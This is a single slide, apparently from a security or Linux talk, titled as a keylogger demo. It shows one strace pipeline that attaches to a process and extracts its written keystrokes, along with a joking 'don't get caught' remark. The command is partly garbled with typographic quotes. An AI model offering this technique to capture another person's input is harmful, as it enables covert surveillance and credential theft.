

# Demo: Let’s make a keylogger!
Don’t use this for nefarious purposes

Also, don’t get caught.

Strace -s 1000 -f -qq -e write -e signal none -p $pid 2>&1 3>&1 | stdbuf -o0 -d”\”” -f2 | stdbuf -o0 tr -d ‘\n’